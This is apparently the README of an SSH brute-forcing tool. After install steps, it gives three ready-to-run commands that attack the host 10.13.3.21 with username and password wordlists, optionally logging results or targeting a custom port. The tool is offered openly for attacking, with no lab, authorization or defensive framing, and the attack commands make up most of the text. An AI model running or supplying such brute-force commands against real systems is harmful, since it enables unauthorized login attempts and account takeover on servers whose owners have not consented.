 # SSH Brute Forcing Script 

1. Run the command `pip install -r requirements.txt` or `poetry install` to install all the packages required in your virtual environment.
2. Run `python main.py` this will run the program

### Basic Attack
``` bash
python main.py -i 10.13.3.21 -u usernames.txt -p passwords.txt
```

### Basic Attack and specifying the log file location
``` bash
python main.py -i 10.13.3.21 -u usernames.txt -p passwords.txt -l log.txt
```

### Basic Attack for specific ports
``` bash
python main.py -i 10.13.3.21 -u usernames.txt -p passwords.txt -port 2222
```

you can use `python main.py -h` to show all argument